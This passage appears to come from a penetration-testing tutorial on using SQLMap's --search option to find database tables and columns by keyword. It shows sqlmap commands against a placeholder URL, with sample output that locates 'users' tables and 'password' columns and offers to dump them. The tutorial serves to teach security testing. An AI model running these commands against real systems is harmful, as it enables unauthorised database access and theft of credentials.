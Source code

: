 ```bash
```
### Searching for Data
When dealing with complex database structures with numerous tables and columns, we can search for databases, tables, and columns of interest, by using the `--search` option. 

This option enables us to search for identifier names by using the `LIKE` operator. For example, if we are looking for all of the table names containing the keyword `user`, we can run SQLMap as follows:
```bash
$ sqlmap -u "http://www.example.com/?id=1" --search -T user

...SNIP...
[14:24:19] [INFO] searching tables LIKE 'user'
Database: testdb
[1 table]
+-----------------+
| users           |
+-----------------+

Database: master
[1 table]
+-----------------+
| users           |
+-----------------+

Database: information_schema
[1 table]
+-----------------+
| USER_PRIVILEGES |
+-----------------+

Database: mysql
[1 table]
+-----------------+
| user            |
+-----------------+

do you want to dump found table(s) entries? [Y/n] 
...SNIP...
```
In the above example, we can immediately spot a couple of interesting data retrieval targets based on these search results. 

We could also have tried to search for all column names based on a specific keyword (e.g. `pass`):
```bash
$ sqlmap -u "http://www.example.com/?id=1" --search -C pass

...SNIP...
columns LIKE 'pass' were found in the following databases:
Database: owasp10
Table: accounts
[1 column]
+----------+------+
| Column   | Type |
+----------+------+
| password | text |
+----------+------+

Database: master
Table: users
[1 column]
+----------+--------------+
| Column   | Type         |
+----------+--------------+
```